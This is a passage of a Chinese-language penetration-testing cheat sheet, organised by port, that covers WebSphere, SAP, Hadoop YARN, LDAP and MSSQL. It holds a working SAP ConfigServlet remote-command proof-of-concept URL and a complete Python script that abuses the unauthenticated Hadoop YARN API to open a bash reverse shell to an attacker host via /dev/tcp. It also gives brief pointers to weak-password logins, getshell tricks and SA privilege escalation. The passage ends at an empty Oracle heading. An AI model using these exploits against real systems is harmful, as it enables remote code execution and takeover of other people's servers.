 ### 9043 端口（webSphere）

```
安全漏洞：控制台弱口令、远程代码执行后台地址：https://:9043/ibm/console/logon.jsp
```

### 50000 端口 （SAP）

```
安全漏洞：远程代码执行

利用方式：攻击者通过构造url请求，实现远程代码执行。

POC:http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all
```

### 50070 端口（hadoop）

```
安全漏洞：未授权命令执行

import requests
target = 'http://127.0.0.1:8088/'
lhost = '192.168.253.128'
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

## 3、数据库端口

### 389 端口（ldap）

安全漏洞：未授权访问 、弱口令利用方式：通过LdapBrowser工具直接连入。

### 1433 端口（Mssql）

安全漏洞：弱口令、暴力破解利用方式：差异备份getshell、SA账户提权等

### 1521 端口（Oracle）
